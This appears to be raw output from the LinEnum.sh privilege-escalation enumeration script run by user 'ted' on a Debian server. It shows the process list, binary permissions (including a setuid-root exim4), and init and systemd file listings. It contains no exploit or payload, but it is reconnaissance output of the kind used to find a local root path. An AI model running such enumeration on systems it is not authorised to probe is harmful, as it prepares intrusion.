statd      508  0.0  0.2   4576  2760 ?        Ss   13:00   0:00 /sbin/rpc.statd
root       513  0.0  0.0      0     0 ?        S<   13:00   0:00 [rpciod]
root       515  0.0  0.0      0     0 ?        S<   13:00   0:00 [nfsiod]
root       522  0.0  0.1   2920  1608 ?        Ss   13:00   0:00 /usr/sbin/rpc.idmapd
root       523  0.0  0.3   5412  3568 ?        Ss   13:00   0:00 /usr/lib/bluetooth/bluetoothd
root       524  0.0  0.2   3988  2260 ?        Ss   13:00   0:00 /usr/sbin/anacron -dsq
root       525  0.0  0.2   5012  2844 ?        Ss   13:00   0:00 /usr/sbin/cron -f
daemon     526  0.0  0.1   2648  1828 ?        Ss   13:00   0:00 /usr/sbin/atd -f
root       529  0.0  0.2   3528  2444 ?        Ss   13:00   0:00 /lib/systemd/systemd-logind
message+   532  0.0  0.3   5248  3344 ?        Ss   13:00   0:00 /usr/bin/dbus-daemon --system --address=systemd: --nofork --nopidfile --systemd-activation
root       548  0.0  0.3  31096  3500 ?        Ssl  13:00   0:00 /usr/sbin/rsyslogd -n
root       550  0.0  0.1   2196  1608 ?        Ss   13:00   0:00 /usr/sbin/acpid
root       553  0.0  0.1   4176  2064 tty1     Ss+  13:00   0:00 /sbin/agetty --noclear tty1 linux
root       640  0.0  0.4   8108  4900 ?        Ss   13:00   0:00 /usr/sbin/sshd -D
Debian-+   818  0.0  0.2   9936  3088 ?        Ss   13:00   0:00 /usr/sbin/exim4 -bd -q30m
root       820  0.0  1.9  94316 19912 ?        Ss   13:00   0:00 /usr/sbin/apache2 -k start
root       860  0.0  0.6   9248  6344 ?        Ss   13:00   0:00 dhclient -v -pf /run/dhclient.eth0.pid -lf /var/lib/dhcp/dhclient.eth0.leases eth0
www-data   960  0.7  0.6  94380  6804 ?        S    13:07   0:02 /usr/sbin/apache2 -k start
www-data   975  0.5  0.6  94380  6804 ?        S    13:07   0:01 /usr/sbin/apache2 -k start
www-data   980  0.5  0.6  94380  6800 ?        S    13:07   0:01 /usr/sbin/apache2 -k start
www-data   983  0.5  0.6  94380  6796 ?        S    13:07   0:01 /usr/sbin/apache2 -k start
www-data   987  0.4  0.6  94380  6800 ?        S    13:07   0:01 /usr/sbin/apache2 -k start
www-data   989  0.3  0.6  94380  6800 ?        S    13:08   0:01 /usr/sbin/apache2 -k start
www-data   990  0.3  0.6  94380  6800 ?        S    13:08   0:00 /usr/sbin/apache2 -k start
www-data   991  0.2  0.6  94380  6800 ?        S    13:08   0:00 /usr/sbin/apache2 -k start
www-data   992  0.1  0.6  94380  6796 ?        S    13:08   0:00 /usr/sbin/apache2 -k start
www-data   995  0.1  0.6  94380  6796 ?        S    13:08   0:00 /usr/sbin/apache2 -k start
root      1045  0.0  0.5  10988  5456 ?        Ss   13:09   0:00 sshd: ted [priv]
ted       1047  0.0  0.4  10988  4424 ?        S    13:09   0:00 sshd: ted@pts/0
ted       1048  0.0  0.4   6396  4588 pts/0    Ss   13:09   0:00 -bash
ted       1624  0.0  0.3   5840  3588 pts/0    S+   13:12   0:00 bash LinEnum.sh
ted       1625  0.0  0.3   5892  3160 pts/0    S+   13:12   0:00 bash LinEnum.sh
ted       1626  0.0  0.1   3748  1648 pts/0    S+   13:12   0:00 tee -a
ted       1799  0.0  0.2   5876  2560 pts/0    S+   13:12   0:00 bash LinEnum.sh
ted       1800  0.0  0.2   4772  2292 pts/0    R+   13:12   0:00 ps aux


[-] Process binaries and associated permissions (from above list):
260K -rwxr-xr-x 1 root root 258K Apr  8  2017 /lib/systemd/systemd-journald
528K -rwxr-xr-x 1 root root 526K Apr  8  2017 /lib/systemd/systemd-logind
296K -rwxr-xr-x 1 root root 294K Apr  8  2017 /lib/systemd/systemd-udevd
 36K -rwxr-xr-x 1 root root  34K Mar 29  2015 /sbin/agetty
   0 lrwxrwxrwx 1 root root   20 Apr  8  2017 /sbin/init -> /lib/systemd/systemd
 48K -rwxr-xr-x 1 root root  46K May  4  2017 /sbin/rpcbind
 76K -rwxr-xr-x 1 root root  75K Aug 13  2014 /sbin/rpc.statd
508K -rwxr-xr-x 1 root root 507K Nov 21  2016 /usr/bin/dbus-daemon
1.1M -rwxr-xr-x 1 root root 1.1M Sep 13  2017 /usr/lib/bluetooth/bluetoothd
 52K -rwxr-xr-x 1 root root  50K Nov  8  2014 /usr/sbin/acpid
 36K -rwxr-xr-x 1 root root  34K Dec 28  2014 /usr/sbin/anacron
628K -rwxr-xr-x 1 root root 628K Mar 31 05:15 /usr/sbin/apache2
 24K -rwxr-xr-x 1 root root  22K Sep 30  2014 /usr/sbin/atd
 44K -rwxr-xr-x 1 root root  43K Jun  7  2015 /usr/sbin/cron
1.1M -rwsr-xr-x 1 root root 1.1M Feb 10 08:37 /usr/sbin/exim4
 32K -rwxr-xr-x 1 root root  31K Aug 13  2014 /usr/sbin/rpc.idmapd
640K -rwxr-xr-x 1 root root 638K Dec 20  2015 /usr/sbin/rsyslogd
932K -rwxr-xr-x 1 root root 931K Nov 19  2017 /usr/sbin/sshd


[-] /etc/init.d/ binary permissions:
total 256
drwxr-xr-x  2 root root  4096 Apr 15 10:08 .
drwxr-xr-x 90 root root  4096 Aug  4 13:00 ..
-rwxr-xr-x  1 root root  2243 Nov  8  2014 acpid
-rwxr-xr-x  1 root root  2014 Dec 28  2014 anacron
-rwxr-xr-x  1 root root 10192 Apr 15 11:07 apache2
-rwxr-xr-x  1 root root  1071 Sep 30  2014 atd
-rwxr-xr-x  1 root root  2948 Sep 13  2017 bluetooth
-rwxr-xr-x  1 root root  1276 Apr  6  2015 bootlogs
-rwxr-xr-x  1 root root  1248 Apr  6  2015 bootmisc.sh
-rwxr-xr-x  1 root root  3807 Apr  6  2015 checkfs.sh
-rwxr-xr-x  1 root root  1072 Apr  6  2015 checkroot-bootclean.sh
-rwxr-xr-x  1 root root  9290 Apr  6  2015 checkroot.sh
-rwxr-xr-x  1 root root  1379 Dec  8  2011 console-setup
-rwxr-xr-x  1 root root  3049 Oct 23  2014 cron
-rwxr-xr-x  1 root root  2813 Oct 10  2016 dbus
-rw-r--r--  1 root root  1468 Apr 15 11:40 .depend.boot
-rw-r--r--  1 root root   497 Apr 15 11:40 .depend.start
-rw-r--r--  1 root root   567 Apr 15 11:40 .depend.stop
-rwxr-xr-x  1 root root  6606 Feb 10 03:16 exim4
-rwxr-xr-x  1 root root  1336 Apr  6  2015 halt
-rwxr-xr-x  1 root root  1423 Apr  6  2015 hostname.sh
-rwxr-xr-x  1 root root  3916 Mar 29  2015 hwclock.sh
-rwxr-xr-x  1 root root  8189 Oct 25  2014 kbd
-rwxr-xr-x  1 root root  1591 Sep 30  2012 keyboard-setup
-rwxr-xr-x  1 root root  1300 Apr  6  2015 killprocs
-rwxr-xr-x  1 root root  1990 Sep 23  2014 kmod
-rwxr-xr-x  1 root root   995 Apr  6  2015 motd
-rwxr-xr-x  1 root root   677 Apr  6  2015 mountall-bootclean.sh
-rwxr-xr-x  1 root root  2138 Apr  6  2015 mountall.sh
-rwxr-xr-x  1 root root  1461 Apr  6  2015 mountdevsubfs.sh
-rwxr-xr-x  1 root root  1564 Apr  6  2015 mountkernfs.sh
-rwxr-xr-x  1 root root   685 Apr  6  2015 mountnfs-bootclean.sh
-rwxr-xr-x  1 root root  2456 Apr  6  2015 mountnfs.sh
-rwxr-xr-x  1 root root  4760 Dec 14  2014 networking
-rwxr-xr-x  1 root root  5658 Aug 12  2014 nfs-common
-rwxr-xr-x  1 root root  1192 Mar  6  2015 procps
-rwxr-xr-x  1 root root  6228 Apr  6  2015 rc
-rwxr-xr-x  1 root root   820 Apr  6  2015 rc.local
-rwxr-xr-x  1 root root   117 Apr  6  2015 rcS
-rw-r--r--  1 root root  2427 Apr  6  2015 README
-rwxr-xr-x  1 root root   661 Apr  6  2015 reboot
-rwxr-xr-x  1 root root  1042 Apr  6  2015 rmnologin
-rwxr-xr-x  1 root root  2512 Sep 20  2015 rpcbind
-rwxr-xr-x  1 root root  2796 Dec 14  2015 rsyslog
-rwxr-xr-x  1 root root  3207 Apr  6  2015 sendsigs
-rwxr-xr-x  1 root root   597 Apr  6  2015 single
-rw-r--r--  1 root root  1087 Apr  6  2015 skeleton
-rwxr-xr-x  1 root root  4077 Nov 18  2017 ssh
-rwxr-xr-x  1 root root  6581 Mar  9  2017 udev
-rwxr-xr-x  1 root root   461 Mar  9  2017 udev-finish
-rwxr-xr-x  1 root root  2737 Apr  6  2015 umountfs
-rwxr-xr-x  1 root root  2202 Apr  6  2015 umountnfs.sh
-rwxr-xr-x  1 root root  1129 Apr  6  2015 umountroot
-rwxr-xr-x  1 root root  3111 Apr  6  2015 urandom


[-] /etc/init/ config file permissions:
total 68
drwxr-xr-x  2 root root 4096 Apr 15 10:08 .
drwxr-xr-x 90 root root 4096 Aug  4 13:00 ..
-rw-r--r--  1 root root  278 Dec 28  2014 anacron.conf
-rw-r--r--  1 root root 2493 Jun  3  2014 networking.conf
-rw-r--r--  1 root root  933 Jun  3  2014 network-interface.conf
-rw-r--r--  1 root root  530 Jun  3  2014 network-interface-container.conf
-rw-r--r--  1 root root 1756 May  4  2013 network-interface-security.conf
-rw-r--r--  1 root root  815 Sep 20  2015 portmap-wait.conf
-rw-r--r--  1 root root  209 Sep 20  2015 rpcbind-boot.conf
-rw-r--r--  1 root root 1042 Sep 20  2015 rpcbind.conf
-rw-r--r--  1 root root  641 Nov 18  2017 ssh.conf
-rw-r--r--  1 root root  581 Apr 10  2014 startpar-bridge.conf
-rw-r--r--  1 root root  337 Mar  9  2017 udev.conf
-rw-r--r--  1 root root  637 Mar  9  2017 udev-fallback-graphics.conf
-rw-r--r--  1 root root  643 Mar  9  2017 udev-finish.conf
-rw-r--r--  1 root root  356 Mar  9  2017 udevmonitor.conf
-rw-r--r--  1 root root  352 Mar  9  2017 udevtrigger.conf


[-] /lib/systemd/* config file permissions:
/lib/systemd/:
total 6.6M
drwxr-xr-x 20 root root  36K Apr 15 10:07 system
drwxr-xr-x  2 root root 4.0K Apr 15 10:01 network
drwxr-xr-x  2 root root 4.0K Apr 15 10:01 system-generators
drwxr-xr-x  2 root root 4.0K Apr 15 10:01 system-preset
-rwxr-xr-x  1 root root 294K Apr  8  2017 systemd-udevd
-rwxr-xr-x  1 root root  46K Apr  8  2017 systemd-activate
-rwxr-xr-x  1 root root  82K Apr  8  2017 systemd-bootchart
-rwxr-xr-x  1 root root  66K Apr  8  2017 systemd-cryptsetup
-rwxr-xr-x  1 root root 262K Apr  8  2017 systemd-fsck
-rwxr-xr-x  1 root root 298K Apr  8  2017 systemd-hostnamed
-rwxr-xr-x  1 root root 258K Apr  8  2017 systemd-journald
-rwxr-xr-x  1 root root 306K Apr  8  2017 systemd-localed
-rwxr-xr-x  1 root root  34K Apr  8  2017 systemd-remount-fs
-rwxr-xr-x  1 root root  26K Apr  8  2017 systemd-reply-password
-rwxr-xr-x  1 root root  42K Apr  8  2017 systemd-rfkill
-rwxr-xr-x  1 root root 1.3M Apr  8  2017 systemd
-rwxr-xr-x  1 root root  54K Apr  8  2017 systemd-backlight
-rwxr-xr-x  1 root root 298K Apr  8  2017 systemd-bus-proxyd
-rwxr-xr-x  1 root root 238K Apr  8  2017 systemd-cgroups-agent
-rwxr-xr-x  1 root root 526K Apr  8  2017 systemd-logind
-rwxr-xr-x  1 root root  42K Apr  8  2017 systemd-modules-load
-rwxr-xr-x  1 root root  14K Apr  8  2017 systemd-multi-seat-x
-rwxr-xr-x  1 root root  74K Apr  8  2017 systemd-networkd-wait-online
-rwxr-xr-x  1 root root  26K Apr  8  2017 systemd-random-seed
-rwxr-xr-x  1 root root  78K Apr  8  2017 systemd-socket-proxyd
-rwxr-xr-x  1 root root  22K Apr  8  2017 systemd-user-sessions
-rwxr-xr-x  1 root root  34K Apr  8  2017 systemd-binfmt
-rwxr-xr-x  1 root root 246K Apr  8  2017 systemd-initctl
-rwxr-xr-x  1 root root 330K Apr  8  2017 systemd-machined
-rwxr-xr-x  1 root root 546K Apr  8  2017 systemd-networkd
-rwxr-xr-x  1 root root  74K Apr  8  2017 systemd-readahead
-rwxr-xr-x  1 root root  78K Apr  8  2017 systemd-resolved
-rwxr-xr-x  1 root root  38K Apr  8  2017 systemd-shutdownd
-rwxr-xr-x  1 root root 310K Apr  8  2017 systemd-timedated
-rwxr-xr-x  1 root root 110K Apr  8  2017 systemd-timesyncd
-rwxr-xr-x  1 root root 242K Apr  8  2017 systemd-update-utmp
-rwxr-xr-x  1 root root 9.4K Apr  8  2017 systemd-ac-power
-rwxr-xr-x  1 root root  30K Apr  8  2017 systemd-quotacheck
-rwxr-xr-x  1 root root  90K Apr  8  2017 systemd-shutdown
-rwxr-xr-x  1 root root  50K Apr  8  2017 systemd-sleep
-rwxr-xr-x  1 root root  38K Apr  8  2017 systemd-sysctl
-rwxr-xr-x  1 root root  546 Apr  8  2017 debian-fixup
-rwxr-xr-x  1 root root  462 Apr  8  2017 systemd-logind-launch
drwxr-xr-x  2 root root 4.0K Apr  8  2017 system-shutdown
drwxr-xr-x  2 root root 4.0K Apr  8  2017 system-sleep

/lib/systemd/system:
total 688K
drwxr-xr-x 2 root root 4.0K Apr 15 10:07 dbus.target.wants
drwxr-xr-x 2 root root 4.0K Apr 15 10:07 multi-user.target.wants
drwxr-xr-x 2 root root 4.0K Apr 15 10:07 sockets.target.wants
drwxr-xr-x 2 root root 4.0K Apr 15 10:06 apache2.service.d
drwxr-xr-x 2 root root 4.0K Apr 15 10:01 getty.target.wants
drwxr-xr-x 2 root root 4.0K Apr 15 10:01 graphical.target.wants
drwxr-xr-x 2 root root 4.0K Apr 15 10:01 local-fs.target.wants
drwxr-xr-x 2 root root 4.0K Apr 15 10:01 poweroff.target.wants
drwxr-xr-x 2 root root 4.0K Apr 15 10:01 reboot.target.wants
drwxr-xr-x 2 root root 4.0K Apr 15 10:01 rescue.target.wants
drwxr-xr-x 2 root root 4.0K Apr 15 10:01 runlevel1.target.wants
drwxr-xr-x 2 root root 4.0K Apr 15 10:01 runlevel2.target.wants
drwxr-xr-x 2 root root 4.0K Apr 15 10:01 runlevel3.target.wants
drwxr-xr-x 2 root root 4.0K Apr 15 10:01 runlevel4.target.wants
drwxr-xr-x 2 root root 4.0K Apr 15 10:01 runlevel5.target.wants
drwxr-xr-x 2 root root 4.0K Apr 15 10:01 sysinit.target.wants
drwxr-xr-x 2 root root 4.0K Apr 15 10:01 timers.target.wants
drwxr-xr-x 2 root root 4.0K Apr 15 10:01 networking.service.d
-rw-r--r-- 1 root root  404 Nov 18  2017 ssh.service
-rw-r--r-- 1 root root  196 Nov 18  2017 ssh@.service
-rw-r--r-- 1 root root  216 Nov 18  2017 ssh.socket
-rw-r--r-- 1 root root  244 Oct 14  2017 wpa_supplicant.service
-rw-r--r-- 1 root root  338 Sep 13  2017 bluetooth.service
lrwxrwxrwx 1 root root   21 Apr  8  2017 udev.service -> systemd-udevd.service
lrwxrwxrwx 1 root root   14 Apr  8  2017 autovt@.service -> getty@.service
lrwxrwxrwx 1 root root    9 Apr  8  2017 bootlogd.service -> /dev/null
lrwxrwxrwx 1 root root    9 Apr  8  2017 bootlogs.service -> /dev/null
lrwxrwxrwx 1 root root    9 Apr  8  2017 bootmisc.service -> /dev/null
lrwxrwxrwx 1 root root    9 Apr  8  2017 checkfs.service -> /dev/null
lrwxrwxrwx 1 root root    9 Apr  8  2017 checkroot-bootclean.service -> /dev/null
lrwxrwxrwx 1 root root    9 Apr  8  2017 checkroot.service -> /dev/null
lrwxrwxrwx 1 root root    9 Apr  8  2017 cryptdisks-early.service -> /dev/null
lrwxrwxrwx 1 root root    9 Apr  8  2017 cryptdisks.service -> /dev/null
lrwxrwxrwx 1 root root   13 Apr  8  2017 ctrl-alt-del.target -> reboot.target
lrwxrwxrwx 1 root root   25 Apr  8  2017 dbus-org.freedesktop.hostname1.service -> systemd-hostnamed.service
lrwxrwxrwx 1 root root   23 Apr  8  2017 dbus-org.freedesktop.locale1.service -> systemd-localed.service
lrwxrwxrwx 1 root root   22 Apr  8  2017 dbus-org.freedesktop.login1.service -> systemd-logind.service
lrwxrwxrwx 1 root root   24 Apr  8  2017 dbus-org.freedesktop.machine1.service -> systemd-machined.service
lrwxrwxrwx 1 root root   25 Apr  8  2017 dbus-org.freedesktop.timedate1.service -> systemd-timedated.service
lrwxrwxrwx 1 root root   16 Apr  8  2017 default.target -> graphical.target
lrwxrwxrwx 1 root root    9 Apr  8  2017 fuse.service -> /dev/null
lrwxrwxrwx 1 root root    9 Apr  8  2017 halt.service -> /dev/null
lrwxrwxrwx 1 root root    9 Apr  8  2017 hostname.service -> /dev/null
lrwxrwxrwx 1 root root    9 Apr  8  2017 hwclockfirst.service -> /dev/null
lrwxrwxrwx 1 root root    9 Apr  8  2017 hwclock.service -> /dev/null
lrwxrwxrwx 1 root root    9 Apr  8  2017 killprocs.service -> /dev/null
lrwxrwxrwx 1 root root   28 Apr  8  2017 kmod.service -> systemd-modules-load.service
lrwxrwxrwx 1 root root   28 Apr  8  2017 module-init-tools.service -> systemd-modules-load.service
lrwxrwxrwx 1 root root    9 Apr  8  2017 motd.service -> /dev/null
lrwxrwxrwx 1 root root    9 Apr  8  2017 mountall-bootclean.service -> /dev/null
lrwxrwxrwx 1 root root    9 Apr  8  2017 mountall.service -> /dev/null
lrwxrwxrwx 1 root root    9 Apr  8  2017 mountdevsubfs.service -> /dev/null
lrwxrwxrwx 1 root root    9 Apr  8  2017 mountkernfs.service -> /dev/null
lrwxrwxrwx 1 root root    9 Apr  8  2017 mountnfs-bootclean.service -> /dev/null
lrwxrwxrwx 1 root root    9 Apr  8  2017 mountnfs.service -> /dev/null
lrwxrwxrwx 1 root root   22 Apr  8  2017 procps.service -> systemd-sysctl.service
lrwxrwxrwx 1 root root   16 Apr  8  2017 rc.local.service -> rc-local.service
lrwxrwxrwx 1 root root    9 Apr  8  2017 reboot.service -> /dev/null
lrwxrwxrwx 1 root root    9 Apr  8  2017 rmnologin.service -> /dev/null
lrwxrwxrwx 1 root root   15 Apr  8  2017 runlevel0.target -> poweroff.target
lrwxrwxrwx 1 root root   13 Apr  8  2017 runlevel1.target -> rescue.target
lrwxrwxrwx 1 root root   17 Apr  8  2017 runlevel2.target -> multi-user.target
lrwxrwxrwx 1 root root   17 Apr  8  2017 runlevel3.target -> multi-user.target
lrwxrwxrwx 1 root root   17 Apr  8  2017 runlevel4.target -> multi-user.target
lrwxrwxrwx 1 root root   16 Apr  8  2017 runlevel5.target -> graphical.target
lrwxrwxrwx 1 root root   13 Apr  8  2017 runlevel6.target -> reboot.target
lrwxrwxrwx 1 root root    9 Apr  8  2017 sendsigs.service -> /dev/null
lrwxrwxrwx 1 root root    9 Apr  8  2017 single.service -> /dev/null
lrwxrwxrwx 1 root root    9 Apr  8  2017 stop-bootlogd.service -> /dev/null
lrwxrwxrwx 1 root root    9 Apr  8  2017 stop-bootlogd-single.service -> /dev/null
lrwxrwxrwx 1 root root    9 Apr  8  2017 umountfs.service -> /dev/null
lrwxrwxrwx 1 root root    9 Apr  8  2017 umountnfs.service -> /dev/null
lrwxrwxrwx 1 root root    9 Apr  8  2017 umountroot.service -> /dev/null
lrwxrwxrwx 1 root root   27 Apr  8  2017 urandom.service -> systemd-random-seed.service
lrwxrwxrwx 1 root root    9 Apr  8  2017 x11-common.service -> /dev/null
-rw-r--r-- 1 root root  402 Apr  8  2017 debian-fixup.service
-rw-r--r-- 1 root root  342 Apr  8  2017 getty-static.service
-rw-r--r-- 1 root root  398 Apr  8  2017 hwclock-save.service
-rw-r--r-- 1 root root  380 Apr  8  2017 ifup@.service
-rw-r--r-- 1 root root  271 Apr  8  2017 systemd-setup-dgram-qlen.service
-rw-r--r-- 1 root root  217 Apr  8  2017 udev-finish.service
-rw-r--r-- 1 root root  770 Apr  8  2017 console-getty.service
-rw-r--r-- 1 root root  741 Apr  8  2017 console-shell.service
-rw-r--r-- 1 root root  783 Apr  8  2017 container-getty@.service
-rw-r--r-- 1 root root 1010 Apr  8  2017 debug-shell.service
-rw-r--r-- 1 root root  986 Apr  8  2017 emergency.service
-rw-r--r-- 1 root root 1.5K Apr  8  2017 getty@.service
-rw-r--r-- 1 root root  565 Apr  8  2017 halt-local.service
-rw-r--r-- 1 root root  630 Apr  8  2017 initrd-cleanup.service
-rw-r--r-- 1 root root  790 Apr  8  2017 initrd-parse-etc.service
-rw-r--r-- 1 root root  640 Apr  8  2017 initrd-switch-root.service
-rw-r--r-- 1 root root  664 Apr  8  2017 initrd-udevadm-cleanup-db.service
-rw-r--r-- 1 root root  675 Apr  8  2017 kmod-static-nodes.service
-rw-r--r-- 1 root root  473 Apr  8  2017 mail-transport-agent.target
-rw-r--r-- 1 root root  635 Apr  8  2017 quotaon.service
-rw-r--r-- 1 root root  633 Apr  8  2017 rc-local.service
-rw-r--r-- 1 root root  954 Apr  8  2017 rescue.service
-rw-r--r-- 1 root root 1.1K Apr  8  2017 serial-getty@.service
-rw-r--r-- 1 root root  653 Apr  8  2017 systemd-ask-password-console.service
-rw-r--r-- 1 root root  681 Apr  8  2017 systemd-ask-password-wall.service
-rw-r--r-- 1 root root  776 Apr  8  2017 systemd-backlight@.service
-rw-r--r-- 1 root root 1011 Apr  8  2017 systemd-binfmt.service
-rw-r--r-- 1 root root  725 Apr  8  2017 systemd-fsck-root.service
-rw-r--r-- 1 root root  678 Apr  8  2017 systemd-fsck@.service
-rw-r--r-- 1 root root  544 Apr  8  2017 systemd-halt.service
-rw-r--r-- 1 root root  501 Apr  8  2017 systemd-hibernate.service
-rw-r--r-- 1 root root  710 Apr  8  2017 systemd-hostnamed.service
-rw-r--r-- 1 root root  519 Apr  8  2017 systemd-hybrid-sleep.service
-rw-r--r-- 1 root root  480 Apr  8  2017 systemd-initctl.service
-rw-r--r-- 1 root root 1.1K Apr  8  2017 systemd-journald.service
-rw-r--r-- 1 root root  698 Apr  8  2017 systemd-journal-flush.service
-rw-r--r-- 1 root root  557 Apr  8  2017 systemd-kexec.service
-rw-r--r-- 1 root root  691 Apr  8  2017 systemd-localed.service
-rw-r--r-- 1 root root 1.2K Apr  8  2017 systemd-logind.service
-rw-r--r-- 1 root root  795 Apr  8  2017 systemd-machined.service
-rw-r--r-- 1 root root 1.1K Apr  8  2017 systemd-modules-load.service
-rw-r--r-- 1 root root  936 Apr  8  2017 systemd-networkd.service
-rw-r--r-- 1 root root  685 Apr  8  2017 systemd-networkd-wait-online.service
-rw-r--r-- 1 root root  605 Apr  8  2017 systemd-nspawn@.service
-rw-r--r-- 1 root root  553 Apr  8  2017 systemd-poweroff.service
-rw-r--r-- 1 root root  681 Apr  8  2017 systemd-quotacheck.service
-rw-r--r-- 1 root root  769 Apr  8  2017 systemd-random-seed.service
-rw-r--r-- 1 root root  841 Apr  8  2017 systemd-readahead-collect.service
-rw-r--r-- 1 root root  638 Apr  8  2017 systemd-readahead-done.service
-rw-r--r-- 1 root root  753 Apr  8  2017 systemd-readahead-replay.service
-rw-r--r-- 1 root root  548 Apr  8  2017 systemd-reboot.service
-rw-r--r-- 1 root root  824 Apr  8  2017 systemd-remount-fs.service
-rw-r--r-- 1 root root  686 Apr  8  2017 systemd-resolved.service
-rw-r--r-- 1 root root  758 Apr  8  2017 systemd-rfkill@.service
-rw-r--r-- 1 root root  475 Apr  8  2017 systemd-shutdownd.service
-rw-r--r-- 1 root root  497 Apr  8  2017 systemd-suspend.service
-rw-r--r-- 1 root root  707 Apr  8  2017 systemd-sysctl.service
-rw-r--r-- 1 root root  655 Apr  8  2017 systemd-timedated.service
-rw-r--r-- 1 root root 1.1K Apr  8  2017 systemd-timesyncd.service
-rw-r--r-- 1 root root  665 Apr  8  2017 systemd-tmpfiles-clean.service
-rw-r--r-- 1 root root  770 Apr  8  2017 systemd-tmpfiles-setup-dev.service
-rw-r--r-- 1 root root  750 Apr  8  2017 systemd-tmpfiles-setup.service
-rw-r--r-- 1 root root  826 Apr  8  2017 systemd-udevd.service
-rw-r--r-- 1 root root  823 Apr  8  2017 systemd-udev-settle.service
-rw-r--r-- 1 root root  715 Apr  8  2017 systemd-udev-trigger.service
-rw-r--r-- 1 root root  757 Apr  8  2017 systemd-update-utmp-runlevel.service
-rw-r--r-- 1 root root  821 Apr  8  2017 systemd-update-utmp.service
-rw-r--r-- 1 root root  588 Apr  8  2017 systemd-user-sessions.service
-rw-r--r-- 1 root root  497 Apr  8  2017 user@.service
-rw-r--r-- 1 root root  524 Apr  8  2017 basic.target
-rw-r--r-- 1 root root  379 Apr  8  2017 bluetooth.target
-rw-r--r-- 1 root root  394 Apr  8  2017 cryptsetup-pre.target
-rw-r--r-- 1 root root  366 Apr  8  2017 cryptsetup.target
-rw-r--r-- 1 root root  636 Apr  8  2017 dev-hugepages.mount
-rw-r--r-- 1 root root  590 Apr  8  2017 dev-mqueue.mount
-rw-r--r-- 1 root root  431 Apr  8  2017 emergency.target
-rw-r--r-- 1 root root  440 Apr  8  2017 final.target
-rw-r--r-- 1 root root  460 Apr  8  2017 getty.target
-rw-r--r-- 1 root root  490 Apr  8  2017 graphical.target
-rw-r--r-- 1 root root  487 Apr  8  2017 halt.target
-rw-r--r-- 1 root root  447 Apr  8  2017 hibernate.target
-rw-r--r-- 1 root root  468 Apr  8  2017 hybrid-sleep.target
-rw-r--r-- 1 root root  553 Apr  8  2017 initrd-fs.target
-rw-r--r-- 1 root root  526 Apr  8  2017 initrd-root-fs.target
-rw-r--r-- 1 root root  691 Apr  8  2017 initrd-switch-root.target
-rw-r--r-- 1 root root  671 Apr  8  2017 initrd.target
-rw-r--r-- 1 root root  501 Apr  8  2017 kexec.target
-rw-r--r-- 1 root root  395 Apr  8  2017 local-fs-pre.target
-rw-r--r-- 1 root root  507 Apr  8  2017 local-fs.target
-rw-r--r-- 1 root root  405 Apr  8  2017 machine.slice
-rw-r--r-- 1 root root  492 Apr  8  2017 multi-user.target
-rw-r--r-- 1 root root  464 Apr  8  2017 network-online.target
-rw-r--r-- 1 root root  461 Apr  8  2017 network-pre.target
-rw-r--r-- 1 root root  480 Apr  8  2017 network.target
-rw-r--r-- 1 root root  514 Apr  8  2017 nss-lookup.target
-rw-r--r-- 1 root root  473 Apr  8  2017 nss-user-lookup.target
-rw-r--r-- 1 root root  354 Apr  8  2017 paths.target
-rw-r--r-- 1 root root  500 Apr  8  2017 poweroff.target
-rw-r--r-- 1 root root  377 Apr  8  2017 printer.target
-rw-r--r-- 1 root root  693 Apr  8  2017 proc-sys-fs-binfmt_misc.automount
-rw-r--r-- 1 root root  603 Apr  8  2017 proc-sys-fs-binfmt_misc.mount
-rw-r--r-- 1 root root  493 Apr  8  2017 reboot.target
-rw-r--r-- 1 root root  396 Apr  8  2017 remote-fs-pre.target
-rw-r--r-- 1 root root  498 Apr  8  2017 remote-fs.target
-rw-r--r-- 1 root root  486 Apr  8  2017 rescue.target
-rw-r--r-- 1 root root  500 Apr  8  2017 rpcbind.target
-rw-r--r-- 1 root root  402 Apr  8  2017 shutdown.target
-rw-r--r-- 1 root root  362 Apr  8  2017 sigpwr.target
-rw-r--r-- 1 root root  420 Apr  8  2017 sleep.target
-rw-r--r-- 1 root root  403 Apr  8  2017 -.slice
-rw-r--r-- 1 root root  409 Apr  8  2017 slices.target
-rw-r--r-- 1 root root  380 Apr  8  2017 smartcard.target
-rw-r--r-- 1 root root  356 Apr  8  2017 sockets.target
-rw-r--r-- 1 root root  380 Apr  8  2017 sound.target
-rw-r--r-- 1 root root  441 Apr  8  2017 suspend.target
-rw-r--r-- 1 root root  353 Apr  8  2017 swap.target
-rw-r--r-- 1 root root  681 Apr  8  2017 sys-fs-fuse-connections.mount
-rw-r--r-- 1 root root  518 Apr  8  2017 sysinit.target
-rw-r--r-- 1 root root  719 Apr  8  2017 sys-kernel-config.mount
-rw-r--r-- 1 root root  662 Apr  8  2017 sys-kernel-debug.mount
-rw-r--r-- 1 root root 1.3K Apr  8  2017 syslog.socket
-rw-r--r-- 1 root root  646 Apr  8  2017 systemd-ask-password-console.path
-rw-r--r-- 1 root root  574 Apr  8  2017 systemd-ask-password-wall.path
-rw-r--r-- 1 root root  524 Apr  8  2017 systemd-initctl.socket
-rw-r--r-- 1 root root 1.1K Apr  8  2017 systemd-journald-dev-log.socket
-rw-r--r-- 1 root root  842 Apr  8  2017 systemd-journald.socket
-rw-r--r-- 1 root root  635 Apr  8  2017 systemd-readahead-done.timer
-rw-r--r-- 1 root root  555 Apr  8  2017 systemd-readahead-drop.service
-rw-r--r-- 1 root root  528 Apr  8  2017 systemd-shutdownd.socket
-rw-r--r-- 1 root root  450 Apr  8  2017 systemd-tmpfiles-clean.timer
-rw-r--r-- 1 root root  578 Apr  8  2017 systemd-udevd-control.socket
-rw-r--r-- 1 root root  575 Apr  8  2017 systemd-udevd-kernel.socket
-rw-r--r-- 1 root root  433 Apr  8  2017 system.slice
-rw-r--r-- 1 root root  652 Apr  8  2017 system-update.target
-rw-r--r-- 1 root root  355 Apr  8  2017 timers.target
-rw-r--r-- 1 root root  395 Apr  8  2017 time-sync.target
-rw-r--r-- 1 root root  661 Apr  8  2017 tmp.mount
-rw-r--r-- 1 root root  417 Apr  8  2017 umount.target
-rw-r--r-- 1 root root  392 Apr  8  2017 user.slice
-rw-r--r-- 1 root root  366 Nov 21  2016 dbus.service
-rw-r--r-- 1 root root  106 Nov 21  2016 dbus.socket
-rw-r--r-- 1 root root  290 Dec 20  2015 rsyslog.service
-rw-r--r-- 1 root root  251 May 14  2015 cron.service
-rw-r--r-- 1 root root  283 Dec 28  2014 anacron-resume.service
-rw-r--r-- 1 root root  183 Dec 28  2014 anacron.service
-rw-r--r-- 1 root root  115 Nov  8  2014 acpid.path
-rw-r--r-- 1 root root  199 Nov  8  2014 acpid.service
